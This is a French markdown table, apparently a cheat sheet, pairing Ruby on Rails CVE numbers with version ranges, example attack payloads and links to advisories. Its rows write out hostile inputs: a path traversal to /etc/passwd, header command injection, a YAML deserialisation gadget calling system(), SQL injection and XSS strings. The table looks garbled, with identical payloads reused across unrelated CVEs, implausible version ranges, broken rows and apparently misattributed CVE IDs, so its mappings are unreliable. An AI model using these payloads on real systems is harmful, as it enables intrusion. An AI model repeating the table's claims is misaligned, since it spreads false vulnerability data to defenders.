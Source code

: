 | CVE-2017-8419 | Rails 4.2.0 à 5.2.3 | Path traversal<br>`GET /assets/../../../../etc/passwd HTTP/1.1` | Lecture fichiers | [https://github.com/rubysec/ruby-advisory-db/blob/master/gems/sprockets/CVE-2017-8419.yml](https://github.com/rubysec/ruby-advisory-db/blob/master/gems/sprockets/CVE-2017-8419.yml) |
| CVE-2017-8418 | Rails 4.2.0 à 5.2.3 | Header malicieux<br>`X-Header: |id > /tmp/pwned|` | RCE via header | [https://github.com/rubysec/ruby-advisory-db/blob/master/gems/actionpack/CVE-2017-8418.yml](https://github.com/rubysec/ruby-advisory-db/blob/master/gems/actionpack/CVE-2017-8418.yml) |
| CVE-2016-2098 | Rails 4.2.0 à 5.2.3 | Header malicieux<br>`X-Header: |id > /tmp/pwned|` | RCE via header | [https://github.com/rubysec/ruby-advisory-db/blob/master/gems/actionpack/CVE-2016-2098.yml](https://github.com/rubysec/ruby-advisory-db/blob/master/gems/actionpack/CVE-2016-2098.yml) |
| CVE-2016-0752 | Rails 4.2.0 à 5.2.3 | Header malicieux<br>`X-Header: |id > /tmp/pwned|` | RCE via header | [https://github.com/rubysec/ruby-advisory-db/blob/master/gems/actionpack/CVE-2016-0752.yml](https://github.com/rubysec/ruby-advisory-db/blob/master/gems/actionpack/CVE-2016-0752.yml) |
| CVE-2016-0751 | Rails 4.2.0 à 5.2.3 | Payload JSON<br>`{"user":{"admin":true}}` | Elevation privilèges | [https://github.com/rubysec/ruby-advisory-db/blob/master/gems/activerecord/CVE-2016-0751.yml](https://github.com/rubysec/ruby-advisory-db/blob/master/gems/activerecord/CVE-2016-0751.yml) |
| CVE-2015-7576 | Rails 4.2.0 à 5.2.3 | `<script>alert(1)</script>` dans paramètre | XSS | [https://github.com/rubysec/ruby-advisory-db/blob/master/gems/actionview/CVE-2015-7576.yml](https://github.com/rubysec/ruby-advisory-db/blob/master/gems/actionview/CVE-2015-7576.yml) |
| CVE-2015-3227 | Rails 4.2.0 à 5.2.3 | Même XSS | [https://github.com/rubysec/ruby-advisory-db/blob/master/gems/actionview/CVE-2015-3227.yml](https://github.com/rubysec/ruby-advisory-db/blob/master/gems/actionview/CVE-2015-3227.yml) |
| CVE-2015-3226 | Rails 4.2.0 à 5.2.3 | Même XSS | [https://github.com/rubysec/ruby-advisory-db/blob/master/gems/actionview/CVE-2015-3226.yml](https://github.com/rubysec/ruby-advisory-db/blob/master/gems/actionview/CVE-2015-3226.yml) |
| CVE-2014-7818 | Rails 4.0.0 à 4.2.3 | Payload JSON<br>`{"user":{"admin":true}}` | Mass assignment | [https://github.com/rubysec/ruby-advisory-db/blob/master/gems/activerecord/CVE-2014-7818.yml](https://github.com/rubysec/ruby-advisory-db/blob/master/gems/activerecord/CVE-2014-7818.yml) |
| CVE-2014-7817 | Rails 4.0.0 à 4.2.3 | Même mass assignment | [https://github.com/rubysec/ruby-advisory-db/blob/master/gems/activerecord/CVE-2014-7817.yml](https://github.com/rubysec/ruby-advisory-db/blob/master/gems/activerecord/CVE-2014-7817.yml) |
| CVE-2014-0130 | Rails 4.0.0 à 4.2.3 | YAML désérialisation RCE<br>```yaml<br>--- !ruby/object:Gem::Installer<br>i: x<br>system('id > /tmp/pwned')```
| CVE-2013-0269 | Rails 3.2 à 4.0 | XSS<br>`<script>alert(1)</script>` | Exécution code malveillant | [https://www.cvedetails.com/cve/CVE-2013-0269/](https://www.cvedetails.com/cve/CVE-2013-0269/) |
| CVE-2013-0157 | Rails 3.2 à 4.0 | XSS | [https://www.cvedetails.com/cve/CVE-2013-0157/](https://www.cvedetails.com/cve/CVE-2013-0157/) |
| CVE-2013-0156 | Rails 3.2 à 4.0 | RCE XML<br>PoC dans lien | [https://rapid7.com/blog/post/2013/01/10/exploiting-ruby-on-rails-with-metasploit-cve-2013-0156/](https://rapid7.com/blog/post/2013/01/10/exploiting-ruby-on-rails-with-metasploit-cve-2013-0156/) |
| CVE-2012-5664 | Rails 3.2 à 4.0 | SQLi<br>`?id=1 OR 1=1` | Exfiltration | [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-5664](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-5664) |
| CVE-2011-0447 | Rails 3.0 à 4.0 | CSRF | [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2011-0447](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2011-0447) |
| CVE-2010-4345 | Rails 2.3 à 4.0 | RCE via paramètre<br>`?cmd=ls` si passé à `system()` | RCE | [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2010-4345](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2010-4345) |

---
